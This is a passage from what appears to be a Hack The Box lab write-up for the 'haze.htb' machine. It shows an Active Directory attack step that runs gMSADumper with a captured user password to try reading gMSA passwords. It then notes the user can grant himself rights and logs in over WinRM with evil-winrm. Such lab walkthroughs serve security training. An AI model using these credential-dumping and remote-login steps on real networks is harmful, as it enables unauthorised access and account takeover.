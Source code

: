 ![](images/media/image21.png){width="6.3in"
height="3.134027777777778in"}

**Read GMSA Password**

**https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword**

**15.2** INFO: Try reading the Password

**Download:
https://github.com/micahvandeusen/gMSADumper/blob/main/gMSADumper.py**

**RUN:** **python gMSADumper.py -u \'mark.adams\' -p
\'Ld@p_Auth_Sp1unk@2k24\' -d haze.htb**

**[RESULT: mark.adams DOESN'T have PERMISSION]{.mark}**

![](images/media/image22.png){width="6.3in"
height="0.6854166666666667in"}

**Mark.adams belongs to ADMIN GROUP, so can add permission to himself!**

**[IMPORTANT:]{.mark} GMSA is not a GROUP, but a SPECIAL ACCOUNT TYPE**

**15.3** INFO: Try POWERSHELL WinRM login with mark.adams

**RUN:** **evil-winrm -i 10.10.11.61 -u mark.adams -p
Ld@p_Auth_Sp1unk@2k24**
